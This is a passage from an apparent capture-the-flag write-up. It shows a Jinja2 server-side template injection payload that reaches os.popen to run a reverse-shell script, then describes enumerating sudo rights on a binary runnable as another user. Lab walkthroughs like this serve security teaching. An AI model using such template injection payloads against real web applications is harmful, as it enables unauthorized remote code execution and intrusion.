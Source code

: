 Then

```bash
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python /tmp/rev.py").read().zfill(417)}}{%endif%}{% endfor %}
```

__NOTE__: Thanks to @badhackjob for helping with payload.

This would give you reverse shell.

![](images/rev.png)

after that I found out that there was a fake `user.txt` in `/home/tony`. I decided to check `tony` sudo right and found out that he can run `/usr/bin/getme` as `r4j`(the other user on the system)

![](images/sudo-rights.png)

I ran `getme --help` to see what that binary does and got large number as output

![](images/random-nums.png)

So I decided to run `cat getme` just to see what it was doing and I got a python code in return.
